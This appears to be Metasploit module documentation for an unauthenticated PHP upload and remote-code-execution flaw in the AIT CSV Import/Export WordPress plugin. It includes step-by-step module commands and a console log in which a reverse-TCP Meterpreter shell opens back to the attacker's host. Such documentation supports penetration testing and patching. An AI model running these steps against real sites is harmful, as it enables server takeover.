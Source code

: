 ## Vulnerable Application

The AIT CSV Import/Export plugin <= 3.0.3 allows unauthenticated
remote attackers to upload and execute arbitrary PHP code. The
`upload-handler` does not require authentication, nor validates the
uploaded content. It may return an error when attempting to parse a
CSV, however the uploaded shell is left. The shell is uploaded to
`wp-content/uploads/`.

The plugin is not free and can be downloaded from https://www.ait-themes.club/wordpress-plugins/csv-import-export/.
Once uploaded, the plugin does NOT need to be activated to be exploitable, just installed.

## Verification Steps

1. Install the plugin
1. Start msfconsole
1. Do: `use exploits/multi/http/wp_ait_csv_rce`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### AIT CSV Import / Export 3.0.3 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
[*] Processing ait.rb for ERB directives.
resource (ait.rb)> use exploits/multi/http/wp_ait_csv_rce
[*] Using configured payload php/meterpreter/reverse_tcp
resource (ait.rb)> set rhost 2.2.2.2
rhost => 2.2.2.2
resource (ait.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ait.rb)> check
[*] 2.2.2.2:80 - The target appears to be vulnerable.
resource (ait.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Uploading payload: W1I6X0.php
[*] Triggering payload
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41504) at 2021-01-01 11:56:16 -0500
[+] Deleted W1I6X0.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
